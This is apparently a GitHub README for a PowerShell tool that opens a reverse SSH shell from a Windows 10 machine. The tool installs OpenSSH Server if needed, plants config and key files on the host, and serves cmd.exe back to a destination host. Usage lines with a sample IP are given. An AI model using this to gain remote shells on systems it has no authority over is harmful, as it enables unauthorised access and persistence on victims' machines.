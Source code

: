 lol-reverseSSHell.ps1
=======================
Living Off the LAN - Reverse SSHell

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server (instead of NetCat / NCat) to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, the script will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it, then download OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS cli/shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

## Usage: 
```Bash
.\lol-reverseSSHell.ps1 -DestinationUserName <user> -DestinationHost <IP Address>
```
```Bash
.\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
```
 -OR- 
```Bash
Double Click .bat file and enter requested information.
```

## Setup Instructions for SSH Keypairs and Help Documentation: 
```Bash
get-help .\lol-reverseSSHell.ps1 
```
```Bash 
get-help .\lol-reverseSSHell.ps1 -Examples
```

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)
